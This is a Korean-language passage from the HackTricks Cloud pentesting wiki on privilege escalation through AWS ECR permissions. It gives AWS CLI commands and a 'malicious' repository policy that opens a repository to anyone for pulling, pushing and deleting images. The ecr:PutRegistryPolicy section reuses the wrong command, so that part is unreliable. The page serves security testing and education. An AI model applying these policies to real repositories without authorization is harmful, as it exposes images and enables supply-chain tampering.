 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** 및 **`ecr:BatchGetImage`** 권한을 가진 공격자는 ECR에 로그인하고 이미지를 다운로드할 수 있습니다.

이미지를 다운로드하는 방법에 대한 자세한 정보는 다음을 참조하십시오:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Potential Impact:** 트래픽에서 민감한 정보를 가로채어 간접적인 권한 상승이 발생할 수 있습니다.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

모든 권한을 가진 공격자는 **ECR에 로그인하고 이미지를 업로드할 수 있습니다**. 이는 해당 이미지가 사용되는 다른 환경으로 권한을 상승시키는 데 유용할 수 있습니다.

새 이미지를 업로드하거나 업데이트하는 방법을 배우려면 다음을 확인하십시오:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

이전 섹션과 유사하지만 공개 리포지토리에 대한 것입니다.

### `ecr:SetRepositoryPolicy`

이 권한을 가진 공격자는 **리포지토리** **정책**을 변경하여 자신(또는 모든 사람)에게 **읽기/쓰기 접근**을 부여할 수 있습니다.\
예를 들어, 이 예에서는 모든 사람에게 읽기 접근이 부여됩니다.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json`의 내용:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

이전 섹션과 유사하지만 공개 리포지토리에 대한 것입니다.\
공격자는 ECR Public 리포지토리의 **리포지토리 정책을 수정**하여 무단 공개 액세스를 부여하거나 자신의 권한을 상승시킬 수 있습니다.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**잠재적 영향**: ECR Public 리포지토리에 대한 무단 공개 접근으로 인해 모든 사용자가 이미지를 푸시, 풀 또는 삭제할 수 있습니다.

### `ecr:PutRegistryPolicy`

이 권한을 가진 공격자는 **레지스트리 정책**을 **변경**하여 자신, 자신의 계정(또는 모든 사람)에게 **읽기/쓰기 접근**을 부여할 수 있습니다.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
